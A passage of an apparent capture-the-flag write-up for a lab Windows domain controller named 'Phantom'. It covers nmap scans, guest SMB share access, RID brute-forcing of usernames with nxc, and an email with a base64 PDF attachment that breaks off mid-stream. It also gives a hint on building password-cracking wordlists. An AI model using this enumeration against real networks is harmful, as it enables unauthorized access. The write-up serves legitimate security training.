







# Phantom
## Machine info
Should you need to crack a hash, use a short custom wordlist based on company name and simple mutation rules commonly seen in real life passwords (e.g. year and a special character).

## Host file setup
```python
sudo nxc smb 10.129.234.63 --generate-hosts-file /etc/hosts
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc.phantom.vl                                                                    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-15 15:54 +0100
Nmap scan report for dc.phantom.vl (10.129.234.63)
Host is up (0.013s latency).
rDNS record for 10.129.234.63: DC.phantom.vl
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49683/tcp open  unknown
56328/tcp open  unknown
56353/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.28 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389 -A --min-rate=2000 -sT dc.phantom.vl             
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-15 15:56 +0100
Nmap scan report for dc.phantom.vl (10.129.234.63)
Host is up (0.013s latency).
rDNS record for 10.129.234.63: DC.phantom.vl

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-15 14:57:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.phantom.vl
| Not valid before: 2026-08-14T14:36:03
|_Not valid after:  2027-02-13T14:36:03
|_ssl-date: 2026-08-15T14:57:45+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PHANTOM
|   NetBIOS_Domain_Name: PHANTOM
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: phantom.vl
|   DNS_Computer_Name: DC.phantom.vl
|   DNS_Tree_Name: phantom.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-15T14:57:05+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth enabled, as with all DCs by default, cannot use it to enumerate shares or users

### Guest access
```python
nxc smb dc.phantom.vl -u 'Guest' -p '' --shares
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\Guest: 
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share                 
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.63   445    DC               Public          READ            
SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share
```

Read access on the `Public` share

```python
nxc smb dc.phantom.vl -u 'Guest' -p '' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC$
svc_sspr
rnichols
pharrison
wsilva
elynch
nhamilton
lstanley
bbarnes
cjones
agarcia
ppayne
ibryant
ssteward
wstewart
vhoward
crose
twright
fhanson
cferguson
alucas
ebryant
vlynch
ghall
ssimpson
ccooper
vcunningham
```

Dumped the users to a file

## `Public` share

```python
smbclient //dc.phantom.vl/Public -U 'Guest'%''        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 11 16:03:14 2024
  ..                                DHS        0  Thu Aug 14 12:55:49 2025
  tech_support_email.eml              A    14565  Sat Jul  6 17:08:43 2024

		6127103 blocks of size 4096. 1759667 blocks available
smb: \>
```

Found an email

```python
cat tech_support_email.eml         
Content-Type: multipart/mixed; boundary="===============6932979162079994354=="
MIME-Version: 1.0
From: alucas@phantom.vl
To: techsupport@phantom.vl
Date: Sat, 06 Jul 2024 12:02:39 -0000
Subject: New Welcome Email Template for New Employees

--===============6932979162079994354==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit


Dear Tech Support Team,

I have finished the new welcome email template for onboarding new employees.

Please find attached the example template. Kindly start using this template for all new employees.

Best regards,
Anthony Lucas
    
--===============6932979162079994354==
Content-Type: application/pdf
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="welcome_template.pdf"

JVBERi0xLjcKJcOkw7zDtsOfCjIgMCBvYmoKPDwvTGVuZ3RoIDMgMCBSL0ZpbHRlci9GbGF0ZURl
Y29kZT4+CnN0cmVhbQp4nI1Vy4rcMBC8+yt0zsFTXZYsGcyAJY8hgT0sGcgh5LBksyE5LGRYyO+H
bnsfM7OeyckvSdVV1dVGLe5vtRkOT78e7r4/uXxTqj8ODjWYXCtSd1Fc7Obr4Uf15YN7rHY3pdp8
frp7vL873Pf95qZ8HB222zwuux3c4WeV91Vo6+SioPbB7e/dZhIndPuHrz1kK7EH0cAjoAURkRAQ
0WFARrGnFuP22/5TtdtXt+/jyipum1inY9weOxAZE6JARCiNeAnb/e8LCFxHCKHmKrNoQHqltPCi
/CjpheeALJ1+lwFBMiICCqIUBN0pSa5xb9YrY6zbE+6yM7mDTK+lLdCqRyZAvYPXb5JANUF0bUNQ
Lqvk12sBapzUQi5oBVnNp6gjJBvx9P/rTFjFDKk9daZHh0wQMiGovIqpzUaVPbFFy8iExIAJCeNl
7HYdO6Qz7dGh0c4z1lFdYIcoUQ2f2+HVCWR4DYXMITBndKXuQMIALqe865OMiByUIaKt83qqNp8M
iOa6VhFQCGZEsT4gkDDZ2w6NrrzMPq6z9/48dYoxx1yDXpYQaMzTm/b3c/DZHXcmy7FvppudJDNr
VcBqRuZoT9PR/lEiJmO4KK9qyhV/0zpDiWe9xR3HN0xeoq18tDJOks03rdi0t7ir2wVcxsLMcvZC
vfegOsRRV6Cxu8nun0eIuWm6RUN+HS7P3CGZhQVzT9sIssTNul1xuVvXAM3pTO/tbI/hGJPq35uB
LqN0aC7jyvrPxMdw1l462BZ7J5DdPD21va/ArP87fMvTmfW1b6DhO/tDRZ33DbYi6Gd1j8f2rfsH
gCembQplbmRzdHJlYW0KZW5kb2JqCgozIDAgb2JqCjYxNwplbmRvYmoKCjE2IDAgb2JqCjw8L0xl
bmd0aCAxNyAwIFIvRmlsdGVyL0ZsYXRlRGVjb2RlL0xlbmd0aDEgODQwOD4+CnN0cmVhbQp4nN1Z
eVwT1/Y/d5ZEXNAIAawsE8JeCEpYCrZYbF1wAQUEtXUJyUCiIZNmBhStYtyq1qWuffiQ1rWWp9Za
1Grrvis+tetr7etml9/zWWut7WuBDL/PvTMg2uXze//+kHxy5t5zzz3nfL/n3DsoeSp56ApzgQbO
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
rCBABRkVQIBycAIPZSCACyQQIRksHXvF37dvHvDgARtwMETVLgAeyqESnGTNn+tyD2hzYAYT9Cef
/25lMdEQwUHmOWLDDGYY8DtrxT/YJw+GQNKf+O8gKy3AgQQesIANeKggWtOAAwHKgIOhnfLHQS64
wAomGEV2FkCCanCrM3glxsAF5Z00C0ECHqqIziiwEMx4EMn6zr5MBwvxxkZmMUtcwJMoS6EauD+1
w6lrLUTGHmDfqoiWg6xJBA48hAEessre4adIVolE4ok/ZQ94wRFWWQhGSsYqgCcZc4AVLOAEJ/FQ
YZxb3bVUzdh0lZXt7Mb6cSBBBcSD6QHO44yXqbhzZNRNqqBKzQSONQlEsJIoeOIbljByFigFBzjJ
boo3doKkhdSPEplIPLN25Mqmxob9dJORJBgMlWRPN7GLdyiBoTDydy0qOZM6WcN4OIm/YifbLuKt
jYwJHfnFWk51JyViJ+HatA5syki1Kzm0EWtJf5Dlsk6VIJFc4pzYVLQVXglghUqCnVJvbmJd+k3m
LCS/grrOTepGUn2pABFMHZ1H6TvTyT/TfZ2mc//BGUpWq0WA5D9YXfFARd2zgFGrBBvpBEWEueJ9
faOQ5FQiFeQh2XCo2cRY84TdCn8qCUoKcu3YFEIuQTef7Oq6z/LI+yzgGvq9rtSf8Pi/8cymctFD
EKwkbGrnd3sVR0IOFJI+UgiRwMEg8oyfEgknc6EIhkE+jIUi8pwDBVAAOZAHRZALg8nafCgADp6A
fMiDJ8mKXCIrc0NI9eXBeOBgBOQSHWybVytWyRMPM0gVtvNIYaRSmzjD2HMTiZUnEf73eb3H8/a1
IlljJb0Ia3KEgy7SxS2EUYmEmTxhpIN4piDSubKdxEsHYbjUab5c7SgecHVUWjUIpO4xRxSflDqV
/g+oPlgPSn9ygJvUo4n45gQTibEckknmRyrvVso7cSys/73/Dn8TtS3cwyyH/wUfjiv4CmVuZHN0
cmVhbQplbmRvYmoKCjE3IDAgb2JqCjU0MTMKZW5kb2JqCgoxOCAwIG9iago8PC9UeXBlL0ZvbnRE
ZXNjcmlwdG9yL0ZvbnROYW1lL0JBQUFBQStBcmltb05GLVJlZ3VsYXIKL0ZsYWdzIDQKL0ZvbnRC
Qm94Wy01NDMgLTM4OSAyNzk2IDEwNDNdL0l0YWxpY0FuZ2xlIDAKL0FzY2VudCA5MjEKL0Rlc2Nl
bnQgLTIyOAovQ2FwSGVpZ2h0IDEwNDIKL1N0ZW1WIDgwCi9Gb250RmlsZTIgMTYgMCBSCj4+CmVu
ZG9iagoKMTkgMCBvYmoKPDwvTGVuZ3RoIDQ0MC9GaWx0ZXIvRmxhdGVEZWNvZGU+PgpzdHJlYW0K
eJxdk8+OmzAQh+9+Ch93DytsY3BWQkhZspE49I9K9wEITFKkjUEOOeTtq5kfbaUeQJ/NzPB5NM6a
9tDGac2+p3noaNXnKY6JbvM9DaRPdJmisk6P07BuK3kP135RWdMeusdtpWsbz3NVqewHXabbmh76
